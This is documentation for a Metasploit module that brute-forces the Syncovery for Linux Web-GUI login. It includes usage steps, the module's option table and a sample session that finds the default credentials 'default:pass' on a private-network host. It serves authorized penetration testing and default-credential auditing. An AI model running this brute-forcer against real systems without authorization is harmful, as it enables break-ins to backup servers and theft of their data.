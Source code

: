 ## Syncovery For Linux Web-GUI Login Brute-Forcer

This module attempts to brute-force valid login credentials for the Syncovery File Sync & Backup Software Web-GUI for Linux.
The default credentials are checked by default.

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `modules/auxiliary/scanner/http/syncovery_linux_login`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get valid credentials.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use modules/auxiliary/scanner/http/syncovery_linux_login
msf6 auxiliary(scanner/http/syncovery_linux_login) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_login) > options

Module options (auxiliary/scanner/http/syncovery_linux_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          pass             no        The password to Syncovery (default: pass)
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8999             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   TARGETURI         /                no        The path to Syncovery
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          default          yes       The username to Syncovery (default: default)
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_login) > run

[+] 192.168.178.26:8999 - Syncovery File Sync & Backup Software confirmed
[+] 192.168.178.26:8999 - Identified version: 9.48a
[+] 192.168.178.26:8999 - Success: 'default:pass'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
